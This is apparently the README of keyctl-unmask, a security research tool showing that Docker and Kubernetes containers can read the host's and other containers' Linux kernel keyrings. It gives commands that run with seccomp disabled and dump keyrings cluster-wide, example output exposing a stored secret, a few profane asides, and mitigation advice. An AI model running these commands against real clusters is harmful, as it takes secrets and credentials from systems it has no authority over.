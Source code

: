 <div align="center">

![fuck-florida](/example/keymask.png)

</div>

# Keyctl-unmask

This tool "Goes Florida" on container keyring masks. It is a tool to demonstrate the ineffectivity that containers have on isolating Linux Kernel keyrings. 

**See also**:

* [antitree/keyctl-unmask](https://hub.docker.com/repository/docker/antitree/keyctl-unmask) Dockerhub image
* [Blog post](https://www.antitree.com/2020/07/keyctl-unmask-going-florida-on-the-state-of-containerizing-linux-keyrings/) explaining more about the issue

## Usage

Running `keyctl-unmask` by default will look like this:

![docker demo](/example/docker_demo.gif)

Within less than 10 minutes all of the host's keyrings will be stored as JSON objects in `./keyctl_ids`

~~~bash
Search for Linux kernel keyrings even if /proc/keys are masked in a container
Usage: 

        keyctl-unmask -min 0 -max 999999999 

        keyctl-unmask -hunt

        keyctl-unmask -d

  -d    Log everything to stdout (cloud logging not supported)
  -hunt
        Enable brute force mode to search for key ids (default true)
  -key int
        Specific key ID to test (int32)
  -max int
        Max key id range (default 999999999)
  -min int
        Minimum key id range (default 1)
  -output string
        Output path (default "./keyctl_ids")
  -q    Quiet mode to disable logging and progress bar

~~~


## Example in Docker

In one container, create a new key representing a secret stored by a container:

~~~shell
docker run --name secret-server -it --security-opt \
    seccomp=unconfined antitree/keyctl-unmask /bin/bash 

> keyctl add user antitrees_secret thetruthisiliketrees @s
911117332
> keyctl show
Session Keyring
 899321446 --alswrv      0     0  keyring: _ses.95f119ce25274b852fc62369089dcb4fbe15678e62eecfdc685d292e6a01f852
 911117332 --alswrv      0     0   \_ user: antitrees_secret
~~~

Start a separate container (with seccomp disabled) and execute `keyctl-unmask`

~~~shell
docker run -it --name keyctl-attacker --security-opt seccomp=unconfined antitree/keyctl-unmask /bin/bash
root@keyctl-attacker:/# keyctl-unmask -min 0 -max 999999999
10 / 10 [----------------------------------------------------------------------------] 100.00% ? p/s 0s
Output saved to:  ./keyctl_ids
root@keyctl-attacker:/# cat keyctl_ids 
~~~

~~~json
{
 "KeyId": 899321446,
 "Valid": true,
 "Name": "_ses.95f119ce25274b852fc62369089dcb4fbe15678e62eecfdc685d292e6a01f852",
 "Type": "keyring",
 "Uid": "0",
 "Gid": "0",
 "Perms": "3f1b0000",
 "String_Content": "\u0014\ufffdN6",
 "Byte_Content": "FIxONg==",
 "Comments": null,
 "Subkeys": [
  {
   "KeyId": 911117332,
   "Valid": true,
   "Name": "antitrees_secret",
   "Type": "user",
   "Uid": "0",
   "Gid": "0",
   "Perms": "3f010000",
   "String_Content": "thetruthisiliketrees",
   "Byte_Content": "dGhldHJ1dGhpc2lsaWtldHJlZXM=",
   "Comments": null,
   "Subkeys": null
  }
 ]
~~~

## Usage In Kubernetes

Most Kubernetes clusters have the "benefit" of running without seccomp enabled
so you can run it yourself like so:

```shell
kubectl run --rm -i \
      -t keyctl-unmask --image=keyctl-unmask \
      --image-pull-policy=Never --restart=Never \
      -- keyctl-unmask -hunt -d
```

### Kubernetes One Off Pod With Progress Bar

The following one liner will start a hunt into the kubernetes cluster and 
return the results with the progress bar in a clean way. 

~~~shell
kubectl run whatever --rm -it --generator=Pod --image-pull-policy=Never \
      --restart=Never --image=antitree/keyctl-unmask \
      --overrides="$(cat example/k8s/keyctl-unmask-run.json)"
~~~

## Kubernetes All Nodes

Deploying as a Job will run this on each node in the cluster to let you figure out 
if any cluster has interesting things within each Node. This creates a PVC to store
the results of trying to extract each Node's keyrings. 

```bash
keyctl apply -f examples/k8s/keyctl-unmask-job.yaml
```

Attach to the debug Pod to read the results:

```bash
kubectl exec -it -n test keyctl-unmask-debug-pod -- /bin/bash
> cat /keyctl-output/* | jq
{
 "KeyId": 899321446,
 "Valid": true,
 "Name": "_ses.95f119ce25274b852fc62369089dcb4fbe15678e62eecfdc685d292e6a01f852",
 "Type": "keyring",
...
```


## Pre-Emptive Responses To Potential Questions/Comments

**What's you're deal with Florida?**
IDK, just not feeling like a fan lately. Wear a fucking mask. 

**Yeah but the Docker seccomp profile takes care of this.**

First, yes seccomp-bpf is a powerful tool and we should all use it for our containers but in the case of Docker, it's considered
a nice-to-have (not to mention difficult to use at scale). Because it's not a primary security control, and because there's no way 
to validate whether a seccomp profile is effective at runtime (see my other talks), we can't rely on it. It's a bolt on fix for the
real issue. 

**We should just enable user namespacing and this would be solved**

If you say that all you have to do is enable user namespacing, I'd say "You're right!" and "No one does" and "It's not the default for Docker"
Lets not say that user namespacing is a solution when enabling it breaks so many other things. 

**Everyone knows about this issue, this isn't new**

That this isn't new is mostly true in that it's been discussed since 2014 but it's been considered generally fixed since 
we added masks to `/proc/keys` and fixed it via seccomp. 

**No one uses keyrings**

That seems to be true for many things but I think it's interesting that the technology is completely incompatible with
containers in that every container can access any other container's keyrings including the hosts. 

**Fine well what do you want someone to do about it?**

1. Ensure that your container runtimes have support for namespaced keyrings: [It's possible](https://lwn.net/Articles/779895/), if anyone cares.
2. Make some of the protections that seccomp provides like blocking `KEYCTL` syscalls completely a compiled in security control .
3. Make seccomp usable in our runtimes. (See separate rant)

## Known Issues

* In minikube (and likely other non-standard linux OS's) the `get_persistent` keyctl SYSCALL isn't supported. From minikube host for example: `keyctl get_persistent @s -1`
